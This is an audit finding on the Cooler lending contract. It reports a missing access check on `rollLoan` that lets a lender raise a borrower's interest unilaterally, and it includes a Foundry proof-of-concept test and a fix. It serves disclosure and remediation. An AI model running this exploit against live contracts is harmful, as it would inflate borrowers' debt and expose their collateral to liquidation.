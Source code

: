 Shaggy Teal Blackbird

high

# Lender can increase loan interest at any time because of lack of access control
## Summary
The lender of a loan can increase the loan interest of the loan at any time without borrower's allowance. This increases the amount of debt tokens the borrower has to repay to get the collateral back.

## Vulnerability Detail
To modify the terms of a loan the lender can call the `provideNewTermsForRoll` function to provide the new varaibles then the owner has to call the `rollLoan` function to validate the changes.
However there is no check that only the owner can call `rollLoan`, this implies that the lender can provide new terms and validate the requests right away by calling `rollLoan` himself.

### Proof of Concept
Here is a test you can add to `Cooler.t.sol` to showcase how the lender can increase the interest rate of the loan at any time.
```solidity
function test_EPLOIT_lender_can_change_interest() public {
    // test inputs
    uint256 amount_ = 1000e18;
    bool directRepay = true;
    bool callbackRepay = false;
    // test setup
    cooler = _initCooler();
    (uint256 reqID, ) = _requestLoan(amount_);
    uint256 loanID = _clearLoan(reqID, amount_, directRepay, callbackRepay);

    uint256 initLoanDebt = cooler.getLoan(loanID).amount;
    uint256 initOwnerDebtBalance = debt.balanceOf(owner);
    console2.log("initLoanDebt =        ",initLoanDebt);         // initLoanDebt =         1000410958904109589000 // amount + interests
    console2.log("initOwnerDebtBalance =",initOwnerDebtBalance); // initOwnerDebtBalance = 1000000000000000000000

    // EXPLOIT STARTS HERE
    vm.startPrank(lender);
    cooler.provideNewTermsForRoll( // Lender provides new terms
        loanID,
        INTEREST_RATE * 100000,   // Increase interest rate
        LOAN_TO_COLLATERAL * 2, // Any amount larger than LOAN_TO_COLLATERAL
        1 days
    );
    cooler.rollLoan(loanID); // Lender rolls the loan himself
    vm.stopPrank();

    // Owner still has the same amount of tokens but the debt has increased
    uint256 endLoanDebt = cooler.getLoan(loanID).amount;
    uint256 endOwnerDebtBalance = debt.balanceOf(owner);
    console2.log("endLoanDebt =        ",endLoanDebt);         // endLoanDebt =         2370836930005629572944
    console2.log("endOwnerDebtBalance =",endOwnerDebtBalance); // endOwnerDebtBalance = 1000000000000000000000
    assertEq(endOwnerDebtBalance, initOwnerDebtBalance);
    assertGt(endLoanDebt, endOwnerDebtBalance);
}
```

## Impact
The lender can increase the interest rate of the loan at any time, which increases the debt of the owner. The owner will then have to repay more debt tokens than the amount given in order to get the collateral back. The owner may even be unable to provide enough debt tokens to cover the debt and be liquidated at the expiration of the loan.

## Code Snippet
https://github.com/ohmzeus/Cooler/blob/c6f2bbe1b51cdf3bb4d078875170177a1b8ba2a3/src/Cooler.sol#L192-L217

## Tool used

Manual Review

## Recommendation
One way to avoid this issue would be to add the right access control to the `rollLoan` function. Only the `Owner` and the `Clearinghouse` should be able to access it.
